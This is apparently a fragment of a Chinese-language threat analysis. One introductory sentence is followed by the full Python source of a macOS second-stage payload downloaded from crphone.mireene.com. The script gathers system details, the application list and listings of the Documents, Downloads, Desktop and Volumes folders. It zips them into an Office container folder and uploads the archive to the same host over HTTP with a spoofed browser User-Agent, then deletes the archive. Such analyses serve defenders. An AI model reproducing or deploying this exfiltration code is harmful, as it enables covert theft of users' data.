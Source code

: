 下载的后续payload依旧是python文件，代码如下

```
## contents of http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v60
import os
import posixpath
import time
import urllib2
import threading
from httplib import *

def CollectData():
    #create work directory
    home_dir = posixpath.expandvars("$HOME")
    workdir = home_dir + "/../../../Group Containers/UBF8T346G9.Office/sync"
    os.system("mkdir -p '" + workdir + "'")

    #get architecture info
    os.system("python -c 'import platform;print(platform.uname())' &gt;&gt; '" + workdir + "/arch.txt'")
    #get systeminfo
    os.system("system_profiler -detailLevel basic &gt;&gt; '" + workdir + "/basic.txt'")
    #get process list
    #os.system("ps -ax &gt;&gt; '" + workdir + "/ps.txt'")
    #get using app list
    os.system("ls -lrS /Applications &gt;&gt; '" + workdir + "/app.txt'")
    #get documents file list
    os.system("ls -lrS '" + home_dir + "/documents' &gt;&gt; '" + workdir + "/documents.txt'")
    #get downloads file list
    os.system("ls -lrS '" + home_dir + "/downloads' &gt;&gt; '" + workdir + "/downloads.txt'")
    #get desktop file list
    os.system("ls -lrS '" + home_dir + "/desktop' &gt;&gt; '" + workdir + "/desktop.txt'")
    #get volumes info
    os.system("ls -lrs /Volumes &gt;&gt; '" + workdir + "/vol.txt'")
    #get logged on user list
    #os.system("w -i &gt;&gt; '" + workdir + "/w_i.txt'")
    #zip gathered informations
    zipname = home_dir + "/../../../Group Containers/UBF8T346G9.Office/backup.zip"
    os.system("rm -f '" + zipname + "'")
    zippass = "doxujoijcs0qei09213@#$@"
    zipcmd = "zip -m -r '" + zipname + "' '" + workdir + "'"
    print(zipcmd)
    os.system(zipcmd)


    try:
        BODY = open(zipname, mode='rb').read()
        headers = `{`"User-Agent" : "Mozilla/5.0 compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/7.0", "Accept-Language" : "en-US,en;q=0.9", "Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "Content-Type" : "multipart/form-data; boundary=----7e222d1d50232"`}` ;
        boundary = "----7e222d1d50232";
        postData = "--" + boundary + "\r\nContent-Disposition: form-data; name=""MAX_FILE_SIZE""\r\n\r\n1000000\r\n--" + boundary + "\r\nContent-Disposition: form-data; name=""file""; filename=""1.txt""\r\nContent-Type: text/plain\r\n\r\n" + BODY + "\r\n--" + boundary + "--";
        conn = HTTPConnection("crphone.mireene.com")
        conn.connect()
        conn.request("POST", "/plugin/editor/Templates/upload.php", postData, headers)
        conn.close()

        #delete zipped file
        os.system("rm -f '" + zipname + "'")
    except:
        print "error"
```